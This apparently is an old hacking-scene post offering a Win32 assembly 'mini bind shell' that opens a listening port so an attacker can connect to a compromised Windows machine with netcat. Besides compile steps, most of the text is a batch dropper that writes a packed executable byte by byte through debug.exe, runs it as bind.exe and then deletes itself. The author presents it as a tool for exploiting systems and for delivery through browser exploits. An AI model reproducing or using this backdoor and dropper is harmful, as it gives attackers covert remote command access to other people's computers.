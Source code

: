 File     :    Mini Bind Shell

Language :    Win32 ASM

FileSize :    2kb

D.O.B.   :    February 22, 2006  

Description:  CMD line shell in masm that binds/listens on a port

I made this in 2006 for use in exploiting a system, once executed this binds to port on the 
computer allowing the attacker to connect to the specified port remotely with netcat


How Compile:
Get MASM installed
From a CMD Prompt type the following:

c:\masm32\bin\ml /c /coff minishell.asm

c:\masm32\bin\link /SUBSYSTEM:WINDOWS /RELEASE /MERGE:.data=.text /MERGE:.rdata=.text /MERGE:.idata=.text /SECTION:.text,EWR /FILEALIGN:512 minishell.obj


Test it:
c:\minishell.exe 8080


Also if you wanted to use this in a batch file so you can paste it over a previous shell or use with a browser exploit that allows you to execute arbitrary files
Copy/Paste the code below to bind.bat:


echo off && echo n 1.dll >123.hex && echo e 0100 >>123.hex

echo 4d 5a 6b 65 72 6e 65 6c 33 32 2e 64 6c 6c 00 00 50 45 00 00 4c 01 02 00 00 00 00 00 00 00 00 00 00 00 00 00 e0 00 0f 01 0b 01 00 00 00 02 00 00 00 00 00 00 00 00 00 00 67 42 00 00 10 00 00 00 00 10 00 00 00 00 40 00 00 10 00 00 00 02 00 00 04 00 00 00 00 00 00 00 04 00 00 00 00 00 00 00 00 50 00 00 00 02 00 00 00 00 00 00 02 00 00 00 00 00 10 00 00 10 00 00 00 00 10 00 00 10 00 00  >>123.hex 

echo e 0180 >>123.hex && echo 00 00 00 00 10 00 00 00 00 00 00 00 00 00 00 00 63 42 00 00 14 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  >>123.hex 

echo e 0200 >>123.hex && echo 00 00 00 00 00 00 00 00 4d 45 57 00 46 12 d2 c3 00 30 00 00 00 10 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 e0 00 00 c0 02 d2 75 db 8a 16 eb d4 00 10 00 00 00 40 00 00 77 02 00 00 00 02 00 00 00 00 00 00 00 00 00 00 00 00 00 00 e0 00 00 c0 be 1c 40 40 00 8b de ad ad 50 ad 97 b2 80 a4 b6 80 ff 13 73 f9 33 c9 ff 13 73 16 33 c0 ff 13 73 21 b6 80 41 b0 10 ff 13  >>123.hex 

echo e 0280 >>123.hex && echo 12 c0 73 fa 75 3e aa eb e0 e8 72 3e 00 00 02 f6 83 d9 01 75 0e ff 53 fc eb 26 ac d1 e8 74 2f 13 c9 eb 1a 91 48 c1 e0 08 ac ff 53 fc 3d 00 7d 00 00 73 0a 80 fc 05 73 06 83 f8 7f 77 02 41 41 95 8b c5 b6 00 56 8b f7 2b f0 f3 a4 5e eb 9b ad 85 c0 75 90 ad 96 ad 97 56 ac 3c 00 75 fb ff 53 f0 95 56 ad 0f c8 40 59 74 ec 79 07 ac 3c 00 75 fb 91 40 50 55 ff 53 f4 ab 75 e7 c3 00 00 00 00 00  >>123.hex 

echo e 0300 >>123.hex && echo 33 c9 41 ff 13 13 c9 ff 13 72 f8 c3 38 42 00 00 45 42 00 00 00 00 00 00 00 40 40 00 30 01 40 00 00 10 40 00 00 10 40 00 68 1c fa 31 40 03 6a 01 e8 fc 86 02 f9 f5 30 ba 18 fc fb bf 14 b2 c7 1f 6a 91 02 06 bd 3c 0c 02 e8 b0 23 a3 60 f6 59 66 c7 05 58 ce 4f 02 15 3a 19 e8 d8 5d 50 d9 aa 86 3d 66 a3 5a 31 c8 3c 5c a0 01 14 6a 10 68 29 14 ff 35 36 14 e8 82 12 29 05 0d 94 81 5e d0 0f ca  >>123.hex 

echo e 0380 >>123.hex && echo 60 5c c5 a1 1e 05 88 3c 30 be c2 2a 44 51 45 04 ea 2d 14 fe 28 9f 42 68 48 93 a9 45 31 46 fb 28 e1 08 a5 8b 0b 85 46 14 e8 26 5f 07 c3 cc ff 25 20 1a 81 bb 2a 14 06 43 0c 21 1c 90 18 c8 10 64 04 4e cc 20 55 8b ec 81 c4 3f 7c fe f1 0c 56 57 e8 3a c7 89 03 45 fc 33 c9 8b 75 a9 ac 3c c0 74 07 e8 22 f2 f7 03 41 eb f4 51 d1 e9 90 e1 58 3b 01 c1 74 0b 5f 5e b8 03 10 c9 c2 08 e1 86 49 8d  >>123.hex 

echo e 0400 >>123.hex && echo bd 3c 70 e5 43 2a 09 cf 2f e0 02 b0 20 aa eb 73 f2 28 8d 85 15 39 8b f0 36 f8 33 2a 33 eb 1b 8b 03 66 32 07 ef 22 65 20 4d fe 22 11 e1 28 2d ed 94 08 83 b9 dc b7 30 4b 74 fb 3b 3a 4d 08 a8 15 59 65 1d 67 0a 4c 13 41 1d 0f 14 eb e6 aa 0d 36 07 19 87 48 f4 9d 7f c0 55 73 11 8b 7d 0c c6 17 b8 02 7f 82 a2 13 9d 68 b0 a0 58 34 33 0d 46 0d e6 d1 f7 e1 fe 58 a3 ee e7 44 bb 1f 16 a9 ce 11  >>123.hex 

echo e 0480 >>123.hex && echo 04 de 55 01 3c d4 14 d4 0e 1b 33 c0 4e ec 87 0b 70 d2 8a 06 46 3d 3c 02 b3 12 0e f7 df 90 eb 0b 2c 30 19 8d 0c 89 06 48 83 2d 0a c0 75 f1 e8 04 11 33 51 c2 38 a8 92 52 e1 06 00 00 30 40 00 63 30 6d 64 00 81 3f 40 00 0c 38 20 40 03 77 73 32 5f 33 98 2e 64 6c e3 c0 80 61 71 63 1b 65 70 74 10 e1 69 73 db ca 6e 01 57 53 41 cb f9 61 72 f0 75 70 cf 18 68 23 6f 6e 73 1d 0e 62 69 94 64 19  >>123.hex 

echo e 0500 >>123.hex && echo 9f c3 63 6b 65 74 bf 06 ff 03 e1 b1 91 1a 72 6e cd 6c 58 4a 47 c3 36 43 6f 6d 8b 61 37 5a 4c 62 cc 4c 80 fc 72 ed f7 3b a8 50 6f 6c ce 73 3b 21 00 00 00 00 00 00 81 3f 40 00 4c 6f 61 64 4c 69 62 72 61 72 79 41 00 47 65 74 50 72 6f 63 41 64 64 72 65 73 73 00 00 00 00 00 00 00 00 00 00 00 00 00 00 0c 40 00 00 e9 ec be ff ff 00 00 00 02 00 00 00 0c 40 00 00  >>123.hex 

echo r cx >>123.hex && echo 0477 >>123.hex && echo w >>123.hex && echo q >>123.hex && debug<123.hex && copy 1.dll bind.exe

rem *********CHANGE PORT NUMBER HERE******

bind.exe 8080

deleteit:

del bind.exe

IF EXIST bind.exe GOTO deleteit

del %0 
